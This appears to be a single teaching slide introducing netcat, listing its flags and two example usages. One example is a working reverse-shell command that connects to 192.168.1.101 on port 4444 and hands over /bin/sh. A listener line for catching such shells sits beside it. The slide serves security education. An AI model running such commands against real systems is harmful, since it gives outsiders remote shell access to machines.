

# nc - TCP/IP swiss army knife
Netcat, written by the Hobbit (aka netcat.traditional)
Comes with most Unices
See man nc for usage instructions
Some useful flags:
-v		(verbose)
-lp <port>	(listen for connections on a TCP port)
-e <cmd>	(execute a command and bind its STDIN/STDERR)
-n		(don't try to resolve domain names)
Some example usages:
nc -lvp 4444	# listen verbosely on TCP/4444 - don't forget to make a firewall hole!
nc -n -e /bin/sh 192.168.1.101 4444	# connect to 192.168.1.101:4444 and give it an instance of /bin/sh
On Windows, use https://nmap.org/ncat/ for catching shells